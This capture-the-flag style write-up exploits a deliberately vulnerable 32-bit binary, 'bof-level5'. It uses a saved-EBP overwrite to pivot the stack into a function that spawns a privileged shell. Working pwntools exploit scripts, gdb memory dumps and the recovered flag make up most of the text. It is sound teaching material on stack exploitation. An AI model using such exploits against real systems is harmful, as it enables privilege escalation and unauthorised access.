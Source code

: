 # Basic Analysis
```c
void get_a_shell() {
    printf("Spawning a privileged shell\n");
    setregid(getegid(), getegid());
    execl("/bin/bash", "bash", NULL);
}

void receive_input() {
    char buf[120];
    read(0, buf, 132);
}

int run() {
    printf("Now the program contains a buffer overflow vulnerability,\n");
    printf("but the vulnerability does not allow us to overwrite the return address...\n");
    printf("Can you exploit this program?\n");
    receive_input();
}

int main() {
    run();
}
```
Looking at the source code, we have a buffer overflow (reading 132 bytes into a 120 byte buffer), but it also says that we can't overflow 
the return address. This is quickly verified by trying. 

```
$ ./bof-level5
Now the program contains a buffer overflow vulnerability,
but the vulnerability does not allow us to overwrite the return address...
Can you exploit this program?
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Segmentation fault (core dumped)
```

Fortunately, we have two returns happening, one from `receive_input()` and the other from `run()`. This opens it up to a frame
pointer attack. 

When multiple returns happen, we are able to manipulate %ebp and %esp to create our own stack frame that can then return to `get_a_shell()`. 
In order to do this, we overwrite %ebp with the address of our buffer, and we write the address of `get_a_shell()` into `buffer+4`. 

```gdb
Dump of assembler code for function receive_input:
   0x08049214 <+0>:     push   %ebp
   0x08049215 <+1>:     mov    %esp,%ebp
   0x08049217 <+3>:     push   %ebx
   0x08049218 <+4>:     sub    $0x84,%esp
   0x0804921e <+10>:    call   0x80492b5 <__x86.get_pc_thunk.ax>
   0x08049223 <+15>:    add    $0x2ddd,%eax
   0x08049228 <+20>:    sub    $0x4,%esp
   0x0804922b <+23>:    push   $0x84
   0x08049230 <+28>:    lea    -0x80(%ebp),%edx
   0x08049233 <+31>:    push   %edx
   0x08049234 <+32>:    push   $0x0
   0x08049236 <+34>:    mov    %eax,%ebx
   0x08049238 <+36>:    call   0x8049050 <read@plt>
   0x0804923d <+41>:    add    $0x10,%esp
   0x08049240 <+44>:    nop
   0x08049241 <+45>:    mov    -0x4(%ebp),%ebx
   0x08049244 <+48>:    leave  
   0x08049245 <+49>:    ret
```
Looking at the assembly, we can see that our buffer is at ebp-0x80. We can set up a test string to verify the size of our buffer. 

```py
string = 'aaaaAAAA' + 'a' * (0x80 - 8) + 'DDDD'
```
```gdb
pwndbg> x/40x $esp
0xffffd400:     0x00000000      0xffffd418      0x00000084      0x08049223
0xffffd410:     0x0804d1a0      0x0804a0bb      0x61616161      0x41414141
0xffffd420:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffd430:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffd440:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffd450:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffd460:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffd470:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffd480:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffd490:     0x61616161      0x61616161      0x44444444      0x08049293
pwndbg> p $ebp-0x80
$1 = (void *) 0xffffd418
pwndbg> x $ebp
0xffffd498:     0x44444444
pwndbg> x $ebp-0x80+4
0xffffd41c:     0x41414141
````
From this, we know that the general shape of our string will be `'aaaa' + p32(get_a_shell_addr) + 'a' * 120 + p32(buffer_addr)` and we can work on getting those addresses. 

```gdb
pwndbg> info function get_a_shell
All functions matching regular expression "get_a_shell":

Non-debugging symbols:
0x080491b6  get_a_shell

pwndbg> p $ebp-0x80
$1 = (void *) 0xffffd418
```

So now we can finish our script:
```py
#!/usr/bin/python3

from pwn import *

p = process('./bof-level5')

gas_addr = 0x080491b6
buf_addr = 0xffffd418 # ebp-0x80

string = b'aaaa' + p32(gas_addr) + b'a' * (0x80 - 8) + p32(buf_addr)

p.sendline(string)

p.interactive()
```
And run it
```
./p.py
[+] Starting local process './bof-level5': pid 1113926
[*] Switching to interactive mode
Now the program contains a buffer overflow vulnerability,
but the vulnerability does not allow us to overwrite the return address...
Can you exploit this program?
[*] Got EOF while reading in interactive
$  cat flag
[*] Process './bof-level5' stopped with exit code -11 (SIGSEGV) (pid 1113926)
[*] Got EOF while sending in interactive
```
Except... it doesn't work. 

# Debugging
In order to figure out what's going wrong, we need to look at gdb after pwntools sends the line. We can do this by adding just a little
to the script

```py
context.terminal = ['tmux', 'splitw', '-h']

# 0x0804923d = receive_input+41 -- right after the read
gdb.attach(p, '''
set follow-fork-mode child
break execve
break *0x0804923d
continue
''')
```

We can also make sure that we weren't just copying our addresses incorrectly by using the core files and getting `get_a_shell`'s address straight from the ELF. 
```py
e = ELF('./bof-level5')
get_a_shell = e.symbols['get_a_shell']

buf = b'a' * 0x84
c = Core('./core.1077027')

buffer_addr = c.stack.find(buf)
```
When we run this, gdb isn't able to properly connect. THis is because the binary is owned by a different user on the system. 
To get around this, I copied the binary into my own folder, naming it `bof-levelx`. Trying again, but with a process we have more control over:
```gdb
pwndbg> x/40x $esp
0xffffc470:     0x00000000      0xffffc488      0x00000084      0x08049223
0xffffc480:     0x0804d1a0      0x0804a0bb      0x61616161      0x080491b6
0xffffc490:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffc4a0:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffc4b0:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffc4c0:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffc4d0:     0x61616161      0x61616161      0x61616161      0x61616161```
0xffffc4e0:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffc4f0:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffc500:     0x61616161      0x61616161      0xffffd478      0x08049293
pwndbg> x $ebp-0x80+4
0xffffc48c:     0x080491b6
pwndbg> p $ebp
$1 = (void *) 0xffffc508
pwndbg> p $ebp-0x80
$2 = (void *) 0xffffc488
```
And here we see the problem. %ebp was not overwritten with the correct address. Why, I'm not entirely sure. However, if we  
change the script so that it runs with `0xffffc488` it works. 

# Full Script + Solve
```py
#!/usr/bin/python3

from pwn import *

p = process('./bof-level5')

e = ELF('./bof-level5')
get_a_shell = e.symbols['get_a_shell']

buffer_addr = 0xffffc488

string = b'aaaa' + p32(get_a_shell) + b'a' * 120 + p32(buffer_addr)

p.sendline(string)

p.interactive()

```

```
$ ./p.py
[+] Starting local process './bof-level5': pid 1112043
[*] '/home/sawyeras/week2/bof-level5/bof-level5'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Switching to interactive mode
Now the program contains a buffer overflow vulnerability,
but the vulnerability does not allow us to overwrite the return address...
Can you exploit this program?
Spawning a privileged shell

$ cat flag
cand{l3avE_p0pS_EBP}
```



